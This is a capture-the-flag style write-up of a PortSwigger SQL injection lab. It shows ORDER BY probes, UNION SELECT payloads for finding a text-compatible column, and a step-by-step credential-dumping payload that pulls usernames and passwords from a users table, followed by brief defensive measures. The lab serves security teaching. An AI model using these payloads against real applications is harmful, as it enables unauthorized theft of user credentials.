

# SQL injection UNION attack, finding a column containing text

```
❓

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you first need to determine the number of columns returned by the query. You can do this using a technique you learned in a [previous lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns). The next step is to identify a column that is compatible with string data.

The lab will provide a random value that you need to make appear within the query results. To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.
```



### **1. Confirm the number of columns**

A quick ORDER BY probe proves the query returns three columns:

```sql
Accessories' ORDER BY 3--      → no error
Accessories' ORDER BY 4--      → database error
```

A test UNION with three placeholders also responds cleanly:

```sql
Accessories' UNION SELECT NULL,NULL,NULL--
```

---

### **2. Test each column for string compatibility**

Replace one NULL at a time with the supplied string.

| **Attempt** | **Payload (URL-encoded)** | **Server response** |
|---|---|---|
| A | ' UNION SELECT 'SuBsbH',NULL,NULL-- | Error: type mismatch in column 1 |
| B | ' UNION SELECT NULL,'SuBsbH',NULL-- | Success: page displays “SuBsbH” |
| C | ' UNION SELECT NULL,NULL,'SuBsbH'-- | Error: type mismatch in column 3 |

The only payload that renders without error is Attempt B. Therefore, **column 2** can hold string data.

---

### **3. Why the test works**

```sql
SELECT name, price, id
FROM   products
WHERE  category = 'Accessories'
UNION
SELECT NULL, 'SuBsbH', NULL--    -- injected row
```

- UNION requires the same column count on both sides.
- If a column expects a numeric type, supplying a string raises a conversion error.
- The first column where the string appears indicates a compatible data type.

---

### **4. Using the result**

Knowing the table has three columns and that column 2 accepts strings allows subsequent UNION attacks to extract data, for example:

```sql
' UNION SELECT NULL, username || ':' || password, NULL FROM users--
```

**Step-by-step**

1. **'**
   
   Ends the quoted category value from the application’s query.
   
2. **UNION SELECT … FROM users**
   
   Tells the database to append additional rows to the original result set.
   

   
   Each row it appends comes from the users table.
   
3. **NULL (first and third positions)**
   
   The original SELECT returns three columns.
   

   
   The first and third columns in the legitimate query are numeric (or otherwise non-text), so NULL is supplied to keep the data types aligned and avoid conversion errors.
   
4. **username \|\| ':' \|\| password**
   
   The \|\| operator concatenates strings in Oracle, PostgreSQL, SQLite, and others.
   

   
   This creates a single text value like `alice:mySecretPw`, which fits into the single text-compatible column we discovered earlier.
   
5. \- -
   
   Marks the rest of the line as a SQL comment so nothing after it (for example the trailing quote from the application code) interferes.
   

**Effect**

The response now contains every username:password pair from the users table, displayed wherever the application renders the second column (for example, as a product name in the catalog).

---

### **5. Defensive measures**

- Use parameterized queries or stored procedures.
- Grant the application only minimal database privileges.
- Validate or escape all client-supplied input before it reaches the database.

The lab is complete once the random string is displayed in the product list, confirming the correct column.
